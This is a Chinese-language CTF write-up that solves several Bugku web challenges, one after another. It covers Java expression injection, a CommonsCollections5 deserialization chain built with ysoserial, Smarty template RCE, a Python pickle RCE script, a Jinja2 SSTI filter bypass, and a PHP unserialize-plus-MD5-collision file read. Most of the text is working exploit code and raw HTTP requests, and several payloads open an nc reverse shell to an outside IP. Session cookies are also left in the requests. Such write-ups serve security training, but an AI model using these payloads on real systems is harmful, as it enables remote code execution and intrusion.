{"exp":"['115.195.167.159','115.195.167.159','164.90.230.201', '174.87.232.68']","limit":"6"}
```



OK那弹shell

```http
POST /updateSysSetting HTTP/1.1
Host: 114.67.175.224:14902
Content-Length: 239
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: application/json;charset=UTF-8
Origin: http://114.67.175.224:14902
Referer: http://114.67.175.224:14902/system-base.html
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: Hm_lvt_c1b044f909411ac4213045f0478e96fc=1731844587; _ga=GA1.1.1320821268.1731844587; _ga_F3VRZT58SJ=GS1.1.1731844587.1.1.1731844789.0.0.0; PHPSESSID=uukfhesjl5h1t0mvdch88ome03; flag=flag%7B67e7bb4eb5eee5456d01992aeb60ac21%7D; BUGKU=s:13:"ctf.bugku.com"; connect.sid=s%3A478RrwhL0Ye-o8q96b9ULtxrdrs6WqLv.7ispJfiYcU6CmcvWVtS7DmyGugH6nAz44mGI%2BPEuYMA; Hm_lvt_080836300300be57b7f34f4b3e97d911=1731934744; HMACCOUNT=405D29F9AFFEA4E6; Hm_lpvt_080836300300be57b7f34f4b3e97d911=1731934972
Connection: close

{
"exp": "''.getClass().forName('java.lang.Run'+'time').getMethod('exec',''.getClass()).invoke(''.getClass().forName('java.lang.Run'+'time').getMethod('getRu'+'ntime').invoke(null),'nc 156.238.233.93 9999 -e /bin/sh'))",
"limit": "60"
}
```

# ez_java_serialize

打CC5的链子

```
java -jar ysoserial.jar CommonsCollections5 "nc 156.238.233.93 9999 -e /bin/bash" |base64 -w0 >poc.bin

scp E:\javaexp\ysoserial.jar root@156.238.233.93:/root/

scp E:\javaexp\JNDI-Injection-Exploit\target\JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar root@156.238.233.93:/root/
```

然后我们发包

```http
POST /hello HTTP/1.1
Host: 114.67.175.224:16818
Content-Length: 2735
Pragma: no-cache
Cache-Control: no-cache
Origin: http://114.67.175.224:16818
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://114.67.175.224:16818/hello
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: Hm_lvt_c1b044f909411ac4213045f0478e96fc=1731844587; _ga=GA1.1.1320821268.1731844587; _ga_F3VRZT58SJ=GS1.1.1731844587.1.1.1731844789.0.0.0; PHPSESSID=uukfhesjl5h1t0mvdch88ome03; flag=flag%7B67e7bb4eb5eee5456d01992aeb60ac21%7D; BUGKU=s:13:"ctf.bugku.com"; connect.sid=s%3A478RrwhL0Ye-o8q96b9ULtxrdrs6WqLv.7ispJfiYcU6CmcvWVtS7DmyGugH6nAz44mGI%2BPEuYMA; Hm_lvt_080836300300be57b7f34f4b3e97d911=1731934744; HMACCOUNT=405D29F9AFFEA4E6; Hm_lpvt_080836300300be57b7f34f4b3e97d911=1731935015
Connection: close

name=rO0ABXNyAC5qYXZheC5tYW5hZ2VtZW50LkJhZEF0dHJpYnV0ZVZhbHVlRXhwRXhjZXB0aW9u1Ofaq2MtRkACAAFMAAN2YWx0ABJMamF2YS9sYW5nL09iamVjdDt4cgATamF2YS5sYW5nLkV4Y2VwdGlvbtD9Hz4aOxzEAgAAeHIAE2phdmEubGFuZy5UaHJvd2FibGXVxjUnOXe4ywMABEwABWNhdXNldAAVTGphdmEvbGFuZy9UaHJvd2FibGU7TAANZGV0YWlsTWVzc2FnZXQAEkxqYXZhL2xhbmcvU3RyaW5nO1sACnN0YWNrVHJhY2V0AB5bTGphdmEvbGFuZy9TdGFja1RyYWNlRWxlbWVudDtMABRzdXBwcmVzc2VkRXhjZXB0aW9uc3QAEExqYXZhL3V0aWwvTGlzdDt4cHEAfgAIcHVyAB5bTGphdmEubGFuZy5TdGFja1RyYWNlRWxlbWVudDsCRio8PP0iOQIAAHhwAAAAA3NyABtqYXZhLmxhbmcuU3RhY2tUcmFjZUVsZW1lbnRhCcWaJjbdhQIACEIABmZvcm1hdEkACmxpbmVOdW1iZXJMAA9jbGFzc0xvYWRlck5hbWVxAH4ABUwADmRlY2xhcmluZ0NsYXNzcQB%2BAAVMAAhmaWxlTmFtZXEAfgAFTAAKbWV0aG9kTmFtZXEAfgAFTAAKbW9kdWxlTmFtZXEAfgAFTAANbW9kdWxlVmVyc2lvbnEAfgAFeHABAAAAUXQAA2FwcHQAJnlzb3NlcmlhbC5wYXlsb2Fkcy5Db21tb25zQ29sbGVjdGlvbnM1dAAYQ29tbW9uc0NvbGxlY3Rpb25zNS5qYXZhdAAJZ2V0T2JqZWN0cHBzcQB%2BAAsBAAAAM3EAfgANcQB%2BAA5xAH4AD3EAfgAQcHBzcQB%2BAAsBAAAAInEAfgANdAAZeXNvc2VyaWFsLkdlbmVyYXRlUGF5bG9hZHQAFEdlbmVyYXRlUGF5bG9hZC5qYXZhdAAEbWFpbnBwc3IAH2phdmEudXRpbC5Db2xsZWN0aW9ucyRFbXB0eUxpc3R6uBe0PKee3gIAAHhweHNyADRvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMua2V5dmFsdWUuVGllZE1hcEVudHJ5iq3SmznBH9sCAAJMAANrZXlxAH4AAUwAA21hcHQAD0xqYXZhL3V0aWwvTWFwO3hwdAADZm9vc3IAKm9yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9ucy5tYXAuTGF6eU1hcG7llIKeeRCUAwABTAAHZmFjdG9yeXQALExvcmcvYXBhY2hlL2NvbW1vbnMvY29sbGVjdGlvbnMvVHJhbnNmb3JtZXI7eHBzcgA6b3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zLmZ1bmN0b3JzLkNoYWluZWRUcmFuc2Zvcm1lcjDHl%2BwoepcEAgABWwANaVRyYW5zZm9ybWVyc3QALVtMb3JnL2FwYWNoZS9jb21tb25zL2NvbGxlY3Rpb25zL1RyYW5zZm9ybWVyO3hwdXIALVtMb3JnLmFwYWNoZS5jb21tb25zLmNvbGxlY3Rpb25zLlRyYW5zZm9ybWVyO71WKvHYNBiZAgAAeHAAAAAFc3IAO29yZy5hcGFjaGUuY29tbW9ucy5jb2xsZWN0aW9ucy5mdW5jdG9ycy5Db25zdGFudFRyYW5zZm9ybWVyWHaQEUECsZQCAAFMAAlpQ29uc3RhbnRxAH4AAXhwdnIAEWphdmEubGFuZy5SdW50aW1lAAAAAAAAAAAAAAB4cHNyADpvcmcuYXBhY2hlLmNvbW1vbnMuY29sbGVjdGlvbnMuZnVuY3RvcnMuSW52b2tlclRyYW5zZm9ybWVyh%2Bj%2Fa3t8zjgCAANbAAVpQXJnc3QAE1tMamF2YS9sYW5nL09iamVjdDtMAAtpTWV0aG9kTmFtZXEAfgAFWwALaVBhcmFtVHlwZXN0ABJbTGphdmEvbGFuZy9DbGFzczt4cHVyABNbTGphdmEubGFuZy5PYmplY3Q7kM5YnxBzKWwCAAB4cAAAAAJ0AApnZXRSdW50aW1ldXIAEltMamF2YS5sYW5nLkNsYXNzO6sW167LzVqZAgAAeHAAAAAAdAAJZ2V0TWV0aG9kdXEAfgAvAAAAAnZyABBqYXZhLmxhbmcuU3RyaW5noPCkOHo7s0ICAAB4cHZxAH4AL3NxAH4AKHVxAH4ALAAAAAJwdXEAfgAsAAAAAHQABmludm9rZXVxAH4ALwAAAAJ2cgAQamF2YS5sYW5nLk9iamVjdAAAAAAAAAAAAAAAeHB2cQB%2BACxzcQB%2BACh1cgATW0xqYXZhLmxhbmcuU3RyaW5nO63SVufpHXtHAgAAeHAAAAABdAAjbmMgMTU2LjIzOC4yMzMuOTMgOTk5OSAtZSAvYmluL2Jhc2h0AARleGVjdXEAfgAvAAAAAXEAfgA0c3EAfgAkc3IAEWphdmEubGFuZy5JbnRlZ2VyEuKgpPeBhzgCAAFJAAV2YWx1ZXhyABBqYXZhLmxhbmcuTnVtYmVyhqyVHQuU4IsCAAB4cAAAAAFzcgARamF2YS51dGlsLkhhc2hNYXAFB9rBwxZg0QMAAkYACmxvYWRGYWN0b3JJAAl0aHJlc2hvbGR4cD9AAAAAAAAAdwgAAAAQAAAAAHh4
```

这里要进行编码不然二进制，别人看不懂，所以不认

# 聪明的php

```php
include('./libs/Smarty.class.php');
echo "pass a parameter and maybe the flag file's filename is random :>";
$smarty = new Smarty();
if($_GET){
    highlight_file('index.php');
    foreach ($_GET AS $key => $value)
    {
        print $key."\n";
        if(preg_match("/flag|\/flag/i", $value)){
            
            $smarty->display('./template.html');


        }elseif(preg_match("/system|readfile|gz|exec|eval|cat|assert|file|fgets/i", $value)){


            $smarty->display('./template.html');            
            
        }else{
            $smarty->display("eval:".$value);
        }
        
    }
}
?>
```

Smarty框架，使用这个姿势RCE

```
{if phpinfo()}{/if}

{if%20passthru('tac /_5510')}{/if}
```

# Python Pickle Unserializer

扫描出source

```python
import pickle
import base64
from flask import Flask, request

app = Flask(__name__)

@app.route("/", methods=["GET"])
def index():
    return """
    Not Found
    The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.
    """, 666, [("TIPS", "/source")]

@app.route("/source", methods=["GET"])
def source():
    with open(__file__, "r") as fp:
        return fp.read()

@app.route("/flag", methods=["PUT"])
def get_flag():
    try:
        data = request.json
        if data:
            return pickle.loads(base64.b64decode(data["payload"]))
        return "MISSED"
    except:
        return "OH NO!!!"

if __name__ == '__main__':
    app.run(host="0.0.0.0", port=80)

```

pickle反序列化，弹shell或者RCE

```python
import base64
import pickle
import subprocess
import httpx


class A:
    def __reduce__(self):
        s = '''
import subprocess

r = subprocess.run(
    'cat flag', 
    shell=True,
    check=True,
    stdout=subprocess.PIPE,
    stderr=subprocess.STDOUT
)
print(r.stdout.decode())
        '''
        return (subprocess.check_output, (["python3","-c",s],))


a = A()
data = {
    'payload': base64.b64encode(pickle.dumps(a)).decode()
}
a = base64.b64decode(data['payload'])
r = httpx.put('http://114.67.175.224:13379/flag', json=data)
print(f'r:{r.text}')
```

# CaaS1

```python
#!/usr/bin/env python3
from flask import Flask, request, render_template, render_template_string, redirect
import subprocess
import urllib

app = Flask(__name__)

def blacklist(inp):
    blacklist = ['mro','url','join','attr','dict','()','init','import','os','system','lipsum','current_app','globals','subclasses','|','getitem','popen','read','ls','flag.txt','cycler','[]','0','1','2','3','4','5','6','7','8','9','=','+',':','update','config','self','class','%','#']
    for b in blacklist:
        if b in inp:
            return "Blacklisted word!"
    if len(inp) <= 70:
        return inp
    if len(inp) > 70:
        return "Input too long!"

@app.route('/')
def main():
    return redirect('/generate')

@app.route('/generate',methods=['GET','POST'])
def generate_certificate():
    if request.method == 'GET':
        return render_template('generate_certificate.html')
    elif request.method == 'POST':
        name = blacklist(request.values['name'])
        teamname = request.values['team_name']
        return render_template_string(f'<p>Haha! No certificate for {name}</p>')

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=80)

```

这里明明是可以直接RCE的

```
http://114.67.175.224:13324/generate?x=__import__('os').popen('tac flag.txt').read()
POST:
name={{g.pop["__global""s__"].__builtins__.eval(request.args.x)}}&team_name=g
```

# noteasytrick

明天做

---

我来了，今天修评论用了很多时间，现在来做一下

```php
<?php
error_reporting(0);
ini_set("display_errors","Off");
class Jesen {
    public $filename;
    public $content;
    public $me;

    function __wakeup(){
        $this->me = new Ctf();
    }
    function __destruct() {
        $this->me->open($this->filename,$this->content);
    }
}

class Ctf {
    function __toString() {
        return "die";
    }
    function open($filename, $content){
        if(!file_get_contents("./sandbox/lock.lock")){
            echo file_get_contents(substr($_POST['b'],0,30));
            die();
        }else{
            file_put_contents("./sandbox/".md5($filename.time()),$content);
            die("or you can guess the final filename?");
        }

    }
}

if(!isset($_POST['a'])){
    highlight_file(__FILE__);
    die();
}else{
    if(($_POST['b'] != $_POST['a']) && (md5($_POST['b']) === md5($_POST['a']))){
        unserialize($_POST['c']);
    }

}
```

进来就有源码，这里我们先绕过wakeup先删除`./sandbox/lock.lock`，然后就可以利用文件进行flag的读取



这里30个字符

```
./../../../../../../../../flag
```

但是由于本身不熟悉，wakeup之后destruct之后还是否触发，于是写个demo测试一下

```php
<?php

error_reporting(0);
highlight_file(__FILE__);

class ctfshow{

    public function __wakeup(){
        echo "wakeup\n";
    }

    public function __destruct(){
        system($this->ctfshow);
    }

}

$data = $_GET['1+1>2'];

if(!preg_match("/^[Oa]:[\d]+/i", $data)){
    unserialize($data);
}
?>
```

```php
<?php 
class ctfshow{
    public $ctfshow='whoami';
}
$a=new SplObjectStorage();
$a->a=new ctfshow();
echo serialize($a);
```

成功RCE，那么写个poc删除文件，但是用什么呢，翻看我的原生类笔记发现`ZipArchive`的`open`方法可以做到

```php
<?php
class Jesen{
    public $filename='./sandbox/lock.lock';
    public $content=8;
    public $me;
}
$a=new Jesen();
$zip=new ZipArchive();
$a->me=$zip;
$b=serialize($a);
echo $b;
/*改一下属性个数
O:5:"Jesen":4:{s:8:"filename";s:19:"./sandbox/lock.lock";s:7:"content";i:8;s:2:"me";O:10:"ZipArchive":5:{s:6:"status";i:0;s:9:"statusSys";i:0;s:8:"numFiles";i:0;s:8:"filename";s:0:"";s:7:"comment";s:0:"";}}
```

然后发包

```http
POST / HTTP/1.1
Host: 114.67.175.224:16474
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Upgrade-Insecure-Requests: 1
Referer: http://114.67.175.224:16474/
Accept-Encoding: gzip, deflate
Cookie: Hm_lvt_c1b044f909411ac4213045f0478e96fc=1731844587; _ga=GA1.1.1320821268.1731844587; _ga_F3VRZT58SJ=GS1.1.1731844587.1.1.1731844789.0.0.0; Hm_lvt_080836300300be57b7f34f4b3e97d911=1731934744
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Content-Type: application/x-www-form-urlencoded
Origin: http://114.67.175.224:16474
Pragma: no-cache
Cache-Control: no-cache
Content-Length: 390

a%5B%5D=1&b%5B%5D=2&c=O%3A5%3A%22Jesen%22%3A4%3A%7Bs%3A8%3A%22filename%22%3Bs%3A19%3A%22.%2Fsandbox%2Flock.lock%22%3Bs%3A7%3A%22content%22%3Bi%3A8%3Bs%3A2%3A%22me%22%3BO%3A10%3A%22ZipArchive%22%3A5%3A%7Bs%3A6%3A%22status%22%3Bi%3A0%3Bs%3A9%3A%22statusSys%22%3Bi%3A0%3Bs%3A8%3A%22numFiles%22%3Bi%3A0%3Bs%3A8%3A%22filename%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22comment%22%3Bs%3A0%3A%22%22%3B%7D%7D
```

再访问文件发现没了，那就可以了

然后使用`fastcoll`，这里1.txt里面写那30个字符，然后生成文件(不会用的可以看我SHCTF2024那个文章，那是我第一次使用)，然后验证看看

```php
<?php 
function readmyfile($path){
 $fh = fopen($path, "rb");
 $data = fread($fh, filesize($path));
 fclose($fh);
 return $data;
}
$a = urlencode(readmyfile("E:/CTFtools/fastcoll_v1.0.0.5.exe/1_msg1.txt"));
$b = urlencode(readmyfile("E:/CTFtools/fastcoll_v1.0.0.5.exe/1_msg2.txt"));
if(md5((string)urldecode($a))===md5((string)urldecode($b))){
echo $a."\n"."\n";
}
if(urldecode($a)!=urldecode($b)){
echo $b;
}
```

完美，那么现在再写poc打就行

```php
<?php
class Jesen{
    public $username;
    public $content;
    public $me;
}
$a=new Jesen();
echo serialize($a);
```

发包

```http
POST / HTTP/1.1
Host: 114.67.175.224:16474
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Upgrade-Insecure-Requests: 1
Referer: http://114.67.175.224:16474/
Accept-Encoding: gzip, deflate
Cookie: Hm_lvt_c1b044f909411ac4213045f0478e96fc=1731844587; _ga=GA1.1.1320821268.1731844587; _ga_F3VRZT58SJ=GS1.1.1731844587.1.1.1731844789.0.0.0; Hm_lvt_080836300300be57b7f34f4b3e97d911=1731934744
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Content-Type: application/x-www-form-urlencoded
Origin: http://114.67.175.224:16474
Pragma: no-cache
Cache-Control: no-cache
Content-Length: 390

a=.%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fflag%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%03HX%E5r%04%93%D5%8E%B8c%A2I%02%B3%BA%11%9F%BE%3D%10%25%B7%296fB%E5%A5%8D%AD%A2%9A%D5%FD%EBB%ED%E7%26%8B%60%CDt%1A%98%F9i%CC%BC%B4%E7%D3%D4%7D%3DL%C0sux%9B%D89%DB%5C%90%02%0C%0C%DD%A7%8F%1C%B0P7%E4%2B%1E%08%9C%9Dp%FF%85%0E%1E%D3%1A%069%EC%C6%01%E6n%5E%1EV%F4%8F%F8%12%AAGHO%7FPJl%F6%5B8%06%F7%7Cdm%BD%5CC%02%0F%F2%F3I&b=.%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fflag%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%03HX%E5r%04%93%D5%8E%B8c%A2I%02%B3%BA%11%9F%BE%BD%10%25%B7%296fB%E5%A5%8D%AD%A2%9A%D5%FD%EBB%ED%E7%26%8B%60%CDt%1A%18%FAi%CC%BC%B4%E7%D3%D4%7D%3DL%C0s%F5x%9B%D89%DB%5C%90%02%0C%0C%DD%A7%8F%1C%B0P7%E4%2B%1E%08%9C%9D%F0%FF%85%0E%1E%D3%1A%069%EC%C6%01%E6n%5E%1EV%F4%8F%F8%12%AAGHO%7F%D0Il%F6%5B8%06%F7%7Cdm%BD%5CC%82%0F%F2%F3I&c=O:5:"Jesen":3:{s:8:"username";N;s:7:"content";N;s:2:"me";N;}
```


